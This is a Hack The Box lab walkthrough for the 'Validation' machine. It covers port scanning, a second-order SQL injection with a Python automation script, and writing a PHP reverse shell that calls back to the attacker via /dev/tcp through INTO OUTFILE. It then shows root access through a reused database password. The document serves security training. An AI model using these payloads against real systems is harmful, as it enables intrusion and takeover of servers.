+++
title = "Validation"
date = "2023-12-03"
description = "This is an easy Linux box."
[extra]
cover = "cover.png"
toc = true
+++

# Information

**Difficulty**: Easy

**OS**: Linux

**Release date**: 2021-09-13

**Created by**: [ippsec](https://app.hackthebox.com/users/3769)

# Setup

I'll attack this box from a Kali Linux VM as the `root` user — not a great practice security-wise, but it's a VM so it's alright. This way I won't have to prefix some commands with `sudo`, which gets cumbersome in the long run. Heck, it's hard enough to remember the flags for the commands without needing to know the privileges required to run them too!

I like to maintain consistency in my workflow for every box, so before starting with the actual pentest, I'll prepare a few things:

1. I'll create a directory that will contain every file related to this box. I'll call it `workspace`, and it will be located at the root of my filesystem `/`.

1. I'll create a `server` directory in `/workspace`. Then, I'll run `httpsimpleserver` to create an HTTP server and `impacket-smbserver` to create an SMB share named `server`. This will make files in this folder available over the Internet, which will be especially useful for transferring files to the target machine if need be!

1. I'll place all my tools and binaries into the `/workspace/server` directory. This will come in handy once we get a foothold, for privilege escalation and for pivoting inside the internal network.

I'll also strive to minimize the use of Metasploit, because it hides the complexity of some exploits, and prefer a more manual approach when it's not too much hassle to really understand what's happening on the machine.

Throughout this write-up, my machine's IP address will be `10.10.14.5`, while the target machine's IP address will be `10.10.11.116`. The commands ran on my machine will be prefixed with `❯` for clarity, and if I ever need to transfer files or binaries to the target machine I'll always place them in the `/tmp` or `C:\tmp` folder to clean up more easily later on.

Now we should be ready to go!

# Remote enumeration

## Host discovery

Well, we already know the IP we are targeting, so this phase is actually empty!

## TCP port scanning

As usual, I'll initiate a port scan on Validation using a TCP SYN `nmap` scan to assess its attack surface.

```sh
❯ nmap -sS 10.10.11.116 -p-
```

```
<SNIP>
PORT     STATE    SERVICE
22/tcp   open     ssh
80/tcp   open     http
4566/tcp open     kwtc
5000/tcp filtered upnp
5001/tcp filtered commplex-link
5002/tcp filtered rfe
5003/tcp filtered filemaker
5004/tcp filtered avt-profile-1
5005/tcp filtered avt-profile-2
5006/tcp filtered wsm-server
5007/tcp filtered wsm-server-ssl
5008/tcp filtered synapsis-edge
8080/tcp open     http-proxy
<SNIP>
```

## Service fingerprinting

Following the port scan, let's gather more data about the services associated with the open ports we found.

```sh
❯ nmap -sS 10.10.11.116 -p 22,80,4566,8080 -sV
```

```
<SNIP>
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.48 ((Debian))
4566/tcp open  http    nginx
8080/tcp open  http    nginx
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
<SNIP>
```

Okay, so `nmap` managed to identify Validation's OS: it's Linux, and the SSH service version suggests that the distribution is Ubuntu.

First of all, we see that Traceback is accepting connections over SSH on the standard port `22/tcp`. This is seldom a good entry point, but it may come in handy later on to get a stable shell when we get credentials.

We also notice that the ports `80/tcp`, `4566/tcp` and `8080/tcp` are used as web servers, as indicated by the `http` service. Apparently the first is using Apache and the other two are using Nginx.

## Scripts

Let's run `nmap`'s default scripts on these services to see if they can find additional information.

```sh
❯ nmap -sS 10.10.11.116 -p 22,80,4566,8080 -sC
```

```
<SNIP>
PORT     STATE SERVICE
22/tcp   open  ssh
| ssh-hostkey: 
|   3072 d8:f5:ef:d2:d3:f9:8d:ad:c6:cf:24:85:94:26:ef:7a (RSA)
|   256 46:3d:6b:cb:a8:19:eb:6a:d0:68:86:94:86:73:e1:72 (ECDSA)
|_  256 70:32:d7:e3:77:c1:4a:cf:47:2a:de:e5:08:7a:f8:7a (ED25519)
80/tcp   open  http
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
4566/tcp open  kwtc
8080/tcp open  http-proxy
|_http-title: 502 Bad Gateway
<SNIP>
```

Well, apparently `nmap` doesn't have much scripts to investigate these services.

Let's start by exploring the web server.

The output of these scripts is not really insightful, we only learned that the default web page on the Apache server lacks a title, while the Nginx server on port `8080/tcp` displays a title reading `502 Bad Gateway`. Unfortunately, `nmap` failed to retrieve the server title on port `4566/tcp`, but manual inspection reveals that this is `403 Forbidden`.

Let's move on to the exploration of the Apache web server first, since this is the only one that doesn't have a page title referring to an error.

## Apache (port `80/tcp`)

Let's browse to `http://10.10.11.116` and we see what this title-less web page is about.



Hmm... it looks like a website to register for an event of some kind. Maybe it's a contest?

### HTTP headers

Let's check out the HTTP response headers when we request the homepage.

```sh
❯ curl http://10.10.11.116 -I
```

```
HTTP/1.1 200 OK
Date: Sat, 02 Dec 2023 17:29:53 GMT
Server: Apache/2.4.48 (Debian)
X-Powered-By: PHP/7.4.23
Content-Type: text/html; charset=UTF-8
```

The `X-Powered-By` indicates that PHP version `7.4.23` is used. It also confirms what we already discovered thanks to the scans we ran ealier, Validation is running Apache version `2.4.48` and is probably using a Debian-based distribution like Ubuntu.

### Technology lookup

While we're at it, let's look up the technologies used by this website with the [Wappalyzer](https://www.wappalyzer.com/) extension.



So it confirms what we already discovered, but it also reveals that this website is using Bootstrap and the jQuery library.

### Exploration

The homepage contains a form that allows us to enter an arbitrary username and to choose a country from a list of pre-defined ones, probably to register to this contest (as suggested by the submit button titled 'Join Now'). When we click on the submit button, we are redirected to the `/account.php` webpage and we can see the people who registered in the contest with the same country.



### XSS

Let's enter `<script>alert("XSS")</script>` as the username and send the form to see if it triggers the alert.



It does! So our input is rendered and reflected in the response, we have a stored XSS here. But it would only trigger if someone else registered with the same country, so it's not really interesting, and it wouldn't give us a foothold into the machine. Let's look at something else.

### SSTI

Since our input is rendered and reflected in the response, maybe it's vulnerable to SSTI. Let's check for it by entering the following payloads:

```
{{7*7}}
${7*7}
<%= 7*7 %>
${{7*7}}
#{7*7}
*{7*7}
```

Unfortunately, this is what we get:



None of the mathematical expressions we entered is computed, which means that it's not vulnerable to SSTI.

### Inner workings

Let's look at the first request we sent using [Caido](https://caido.io/).



So upon filling the form with a username and a country, it actually sends a POST request to `/` with the data:

```html
username=foo&country=Andorra
```

The response is a `302` code that redirects to `account.php`, as we already noticed. Interestingly, it also sets a `user` cookie to a seemingly random value. But if we send the request again, we get the same cookie... It must be the result of a hash function applied to some data that we sent!

Let's enter the cookie we got on [Crackstation](https://crackstation.net/). Here's the result:



So the `user` cookie is actually set to MD5 hash of the username we enter!

### Abusing cookies

We can try to manually set our cookie to the MD5 hash of `admin` or `root` to maybe get access to a dashboard or something, but unfortunately it doesn't work.

### SQLi

#### Test

There's still one thing we haven't tried out with the form yet: SQLi. If we can see who registered for this event, it must be that the previous registrations are stored somewhere, probably inside a database!

Let's fiddle a bit with our input to see if we can alter anything. Let's start by entering `foo'` as the username.



Well, it didn't work. What about `foo"` then?



It still didn't work! So this website must be secure against SQLi...

Or is it? We only tried to change the `username` parameter but no the `country`, since the frontend prevents us from editing it. Let's replay the POST request using Caido, and enter `Andorra'` as the country.



Let's set our `user` to the cookie in the response and browse to `http://10.10.11.116/account.php`.



There's an error! It looks like the SQL query is unfinished. So this website must be vulnerable to a second-order SQLi!

#### Query

We can assume that the SQL query used to return the registered players looks like:

```sql
SELECT username FROM players WHERE country = "<COUNTRY>";
```

In order to execute custom SQL queries, we can use the `UNION` keyword to chain two of them and to append the results to the original query. However, the individual queries must return the same number of columns. In order to find it, we can use a `UNION SELECT` payload specifying a different number of null values.

We don't know which database the web server is using though, so let's use standard comments `--` to comment out the rest of the query.

#### Number of columns

Let's try to enter the URL encoded result of `Andorra' UNION SELECT NULL; -- -` to see if the number of columns is `1`.



The last bullet point is followed by nothing, so it worked! There's indeed `1` column in the table.

#### Script

It's a but cumbersome to enter the URL encoded payload on Caido and then to retrieve the response on a web browser though. Let's use a Python script to automate that:

```py
import requests
from bs4 import BeautifulSoup
from cmd import Cmd


# Define a custom command-line interpreter class
class MyCmd(Cmd):
    # Set the prompt for the command-line interface
    prompt = "> "

    # Define the default behavior for handling input
    def default(self, line):
        # Define the target URL
        url = "http://10.10.11.116/"

        # Create a dictionary containing the payload for the SQL injection
        data = {"username": "foo", "country": "Andorra' UNION " + line + "; -- -"}

        # Send a POST request with the payload to the target URL
        response = requests.post(url, data=data)

        # Parse the HTML response using BeautifulSoup
        soup = BeautifulSoup(response.text, "html.parser")

        # Check if the response contains a <li> element
        if soup.li:
            # Print the text content of all <li> elements found in the response
            print("\n".join([x.text for x in soup.findAll("li")]))

    # Define behavior for an empty line (do nothing)
    def emptyline(self):
        pass

    # Define behavior for the 'exit' command
    def do_exit(self):
        # Return True to exit the command loop
        return True


# Entry point of the script
if __name__ == "__main__":
    # Create an instance of the custom command-line interpreter and start the command loop
    MyCmd().cmdloop()
```

I'll save it as `sqli.py` and I'll reset the box to clear all my previous SQLi attempts and have a cleaner output. Then, I'll run this script.

## MariaDB (through Apache)

Let's explore the database we got access to using our SQLi.

### Version

First, we want to know which database and which version Validation is using to store the registrations, in order to choose the correct commands.

```sql
> SELECT @@version
```

```
10.5.11-MariaDB-1
```

Alright! So this is MariaDB version `10.5.11`, a fork of MySQL.

### Databases

Now, let's see which databases are available.

```sql
> SELECT schema_name FROM information_schema.schemata
```

```
information_schema
performance_schema
mysql
registration
```

So this instance contains four databases. Only of them is a non-default MySQL database though: `registration`.

### `registration`'s tables

Let's see which tables are included in this database.

```sql
> SELECT table_name FROM information_schema.tables WHERE table_schema = 'registration'
```

```
registration
```

So there's a single table named `registration`, like the name of the database.

### `registration`'s columns

Let's continue our enumeration of this database by checking the content of the table we discovered.

```sql
> SELECT column_name FROM information_schema.columns WHERE table_name = 'registration'
```

```
username
userhash
country
regtime
```

Alright, so this table holds four columns. Their names are not really interesting though, it doesn't look like we will find a password or anything to connect to Validation. If we explore them, we see that we were correct: these columns simply contain the value for our registration.

So the content of this database is useless, but this doesn't mean that we're on a dead end yet.

### User

Let's check the name of the current user we have access to in the context of the database session.

```sql
> SELECT user()
```

```
uhc@localhost
```

Alright, so we are `uhc`. The `localhost` confirms that this database is hosted locally on Validation.

### Permissions

Let's check our permissions. Who knows, maybe we have relaxed permissions?

```sql
> SELECT privilege_type FROM information_schema.user_privileges WHERE grantee = "'uhc'@'localhost'"
```

```
SELECT
INSERT
UPDATE
DELETE
CREATE
DROP
RELOAD
SHUTDOWN
PROCESS
FILE
REFERENCES
INDEX
ALTER
SHOW DATABASES
SUPER
CREATE TEMPORARY TABLES
LOCK TABLES
EXECUTE
REPLICATION SLAVE
BINLOG MONITOR
CREATE VIEW
SHOW VIEW
CREATE ROUTINE
ALTER ROUTINE
CREATE USER
EVENT
TRIGGER
CREATE TABLESPACE
DELETE HISTORY
SET USER
FEDERATED ADMIN
CONNECTION ADMIN
READ_ONLY ADMIN
REPLICATION SLAVE ADMIN
REPLICATION MASTER ADMIN
BINLOG ADMIN
BINLOG REPLAY
SLAVE MONITOR
```

Our command returned a bunch of permissions, but one stands out from the crowd: `FILE`.

# Foothold (SQLi)

We just found out that we have the rights to read and write to files. This means that in theory, we should be able to write our own files on the web server!

## Preparation

Our goal is to upload a file that we are going to execute to obtain a reverse shell. I'll use [this website](https://www.revshells.com/) to find appropriate payloads.

First of all, I'll start the listener to catch the shell:

```sh
❯ rlwrap nc -lvnp 9001
```

```
listening on [any] 9001 ...
```

Now, let's find the payload to obtain the reverse shell. Luckily we know that the website is using PHP, so it should be pretty easy to obtain one by executing a payload as an OS command! I'm going to choose a payload from the previous website, but I'll slightly modify it, which gives this payload:

```php
<?php system("/bin/bash -c 'sh -i >& /dev/tcp/10.10.14.5/9001 0>&1'") ?>
```

## Exploitation

Let's use our script to write our payload into a `revshell.php` file:

```sql
> SELECT '<?php system("/bin/bash -c \'sh -i >& /dev/tcp/10.10.14.5/9001 0>&1\'") ?>' INTO outfile '/var/www/html/revshell.php'
```

There's no output, because the command doesn't return anything.

Now let's trigger our payload.

```sh
❯ curl http://10.10.11.116/revshell.php -s
```

If we check our listener:

```
connect to [10.10.14.5] from (UNKNOWN) [10.10.11.116] 53348
sh: 0: can't access tty; job control turned off
$
```

It worked. Nice!

Our shell is not really interactive though, so I'll run this one-liner to stabilize it a bit:

```sh
script /dev/null -qc /bin/bash
```

```
www-data@validation:/var/www/html$
```

That's much better!

# Local enumeration

## Distribution

Let's see which distribution Validation is using.

```sh
www-data@validation:/var/www/html$ cat /etc/os-release
```

```
cat /etc/os-release
PRETTY_NAME="Debian GNU/Linux 11 (bullseye)"
NAME="Debian GNU/Linux"
VERSION_ID="11"
VERSION="11 (bullseye)"
VERSION_CODENAME=bullseye
ID=debian
HOME_URL="https://www.debian.org/"
SUPPORT_URL="https://www.debian.org/support"
BUG_REPORT_URL="https://bugs.debian.org/"
```

So this is Debian 11, okay. That's pretty recent, so we're unlikely to find vulnerabilities here.

## Architecture

What is Validation's architecture?

```sh
www-data@validation:/var/www/html$ uname -m
```

```
x86_64
```

So this system is using x64. This will be useful to know if we want to compile our own exploits.

## Kernel

Maybe Validation is vulnerable to a kernel exploit?

```sh
www-data@validation:/var/www/html$ uname -r
```

```
5.4.0-81-generic
```

Unfortunately, the kernel version is recent too.

## AppArmor

Let's list the applications AppArmor profiles:

```sh
www-data@validation:/var/www/html$ ls -lap /etc/apparmor.d/ | grep -v '/'
```

```
<SNIP>
-rw-r--r-- 1 root root  730 Jul 25  2021 usr.sbin.mariadbd
```

There's only a profile for `/usr/sbin/mariadb`.

## NICs

Let's gather the list of connected NICs.

```sh
www-data@validation:/var/www/html$ ip a
```

```
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
13: eth0@if14: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default
    link/ether 02:42:ac:15:00:06 brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet 172.21.0.6/16 brd 172.21.255.255 scope global eth0
       valid_lft forever preferred_lft forever
```

So there's only the loopback interface and the Ethernet interface.

## Hostname

What is Validation's hostname?

```sh
www-data@validation:/var/www/html$ hostname
```

```
validation
```

Yeah I know, very surprising.

## Local users

Let's enumerate all the local users that have a console.

```sh
www-data@validation:/var/www/html$ cat /etc/passwd | grep "sh$" | cut -d: -f1
```

```
root
```

Hmm... looks like there's only `root`. That's definitely unusual.

## Local groups

Let's retrieve the list of all local groups.

```sh
www-data@validation:/var/www/html$ getent group | cut -d: -f1 | sort
```

```
adm
audio
backup
bin
cdrom
daemon
dialout
dip
disk
fax
floppy
games
gnats
irc
kmem
list
lp
mail
man
messagebus
mysql
news
nogroup
operator
plugdev
proxy
root
sasl
shadow
src
ssh
staff
sudo
sys
systemd-journal
systemd-network
systemd-resolve
systemd-timesync
tape
tty
users
utmp
uucp
video
voice
www-data
```

That's pretty classic.

## User account information

Let's see to which groups we currently belong

```sh
www-data@validation:/var/www/html$ groups
```

```
www-data
```

We only belong to the default group for our user.

## Home folder

We can try to check for our home folder, but since we are not a real user, we don't have any.

There's no real user apart from `root`, so the `/home` folder should be empty. But strangely, we still find one directory though: `htb`. Let's explore its content:

```sh
www-data@validation:/var/www/html$ ls -la /home/htb
```

```
<SNIP>
drwxr-xr-x 2 root root 4096 Sep  9  2021 .
drwxr-xr-x 1 root root 4096 Sep 16  2021 ..
-rw-r--r-- 1 root root   33 Dec  3 20:54 user.txt
```

This folder contains the user flag! And it's readable by everyone. Let's retrieve its content.

```sh
www-data@validation:/var/www/html$ cat /home/htb/user.txt
```

```
b42b980b223a6fceaa0a5f376c004228
```

## Command history

If we look for a command history file, we find none.

## Website code review

Let's review the content of the website about the UHC event, located at `/var/www/html`.

```php
<?php
    require('config.php');
    if ( $_SERVER['REQUEST_METHOD'] == 'POST' ) {
        $userhash = md5($_POST['username']);
        $sql = "INSERT INTO registration (username, userhash, country, regtime) VALUES (?, ?, ?, ?)";
        $stmt = $conn->prepare($sql);
        $stmt->bind_param("sssi", $_POST['username'], $userhash , $_POST['country'], time());
        if ($stmt->execute()) {;
            setcookie('user', $userhash);
            header("Location: /account.php");
            exit;
        }
        $sql = "update registration set country = ? where username = ?";
        $stmt = $conn->prepare($sql);
        $stmt->bind_param("ss", $_POST['country'], $_POST['username']);
        $stmt->execute();
        setcookie('user', $userhash);
        header("Location: /account.php");
        exit;
    }
?>
<SNIP>
```

The file `index.php` contains the source code for the homepage of the website. The PHP part does exactly what we identified during our exploration of the server: it creates a MD5 hash of the username, adds the username, username hash and country into the `registration` MariaDB table, sets the `user` cookie to the username hash, and redirects to `/account.php`. It also requires the `config.php` file, we'll look into it later.

```php
<?php
    if (!isset($_COOKIE['user'])) {
        echo "Please Register!";
    exit;
}
?>
<SNIP>
<?php 
    include('config.php');
    $user = $_COOKIE['user'];
    $sql = "SELECT username, country FROM registration WHERE userhash = ?";
    $stmt = $conn->prepare($sql);
    $stmt->bind_param("s", $user);
    $stmt->execute();
              
    $result = $stmt->get_result(); // get the mysqli result
    $row = $result->fetch_assoc(); // fetch data   
    echo '<h1 class="text-white">Welcome ' . $row['username'] . '</h1>';
    echo '<h3 class="text-white">Other Players In ' . $row['country'] . '</h3>';
    sql = "SELECT username FROM registration WHERE country = '" . $row['country'] . "'";
    $result = $conn->query($sql);
    while ($row = $result->fetch_assoc()) {
        echo "<li class='text-white'>" . $row['username'] . "</li>";
    }
?>
<SNIP>
```

The file `account.php` is responsible for showing all the registered players with the same country. In fact, it reads the username hash of the user from the request `user` cookie, fetches all the players who registered with the same country the same country, and shows the result. Once again, we see an `include` statement for the `config.php` file...

```php
<?php
    $servername = "127.0.0.1";
    $username = "uhc";
    $password = "uhc-9qual-global-pw";
    $dbname = "registration";

    $conn = new mysqli($servername, $username, $password, $dbname);
?>
```

The mysterious `config.php` file actually holds the configuration for the MariaDB requests! It also shows in cleartext the password used to connect to the database.

My first idea was to use these credentials to connect to Validation using SSH, but it didn't work.

# Privilege escalation

So these credentials don't work with SSH. We found out that this box had no user account, so `root` musts be the only user, which means that he musts also be the one who wrote the website. Perhaps he reused his credentials? Let's test the password we found to get `root`.

```sh
www-data@validation:/var/www/html$ su -
```

```
Password: uhc-9qual-global-pw

root@validation:~#
```

It actually worked!

# Local enumeration

## Home folder

The only thing we need to do to finish this box is to retrieve the root flag. As usual, we can find it in our home folder!

```sh
root@validation:~# cat ~/root.txt
```

```
55070a0e5ccea42a26d1043e8cf6d341
```

# Afterwords


That's it for this box! I had trouble getting a foothold, since I forgot to test for SQLi at first. However, the path to `root` was really easy to identify, and extremely short compared to the foothold.

Thanks for reading!
